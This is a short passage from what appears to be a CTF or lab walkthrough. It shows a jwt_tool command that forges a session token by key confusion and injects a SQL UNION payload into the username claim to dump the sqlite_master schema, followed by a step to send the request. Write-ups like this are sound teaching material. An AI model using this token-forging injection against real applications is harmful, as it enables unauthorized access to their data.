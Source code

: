 Next we have to find the columns for the above found tables. You can do this by executing sql command:

{% code overflow="wrap" %}
```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(sql),1 from sqlite_master--" -X k -pk ./public.key
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Untitled 19 (6).png" alt=""><figcaption></figcaption></figure>

Now send the request.
